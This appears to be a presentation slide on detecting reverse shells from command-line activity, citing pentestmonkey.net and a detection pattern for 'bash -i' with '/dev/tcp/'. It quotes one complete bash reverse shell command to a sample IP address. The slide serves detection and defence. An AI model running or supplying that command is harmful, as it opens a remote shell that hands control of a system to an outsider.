

# Command line detections
Basic reverse shell commands at pentestmonkey.net
Ex: searching for bash -i with /dev/tcp/
Looking for bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
Why?
Detect several methods using bash, perl, python, etc for spawning a reverse shell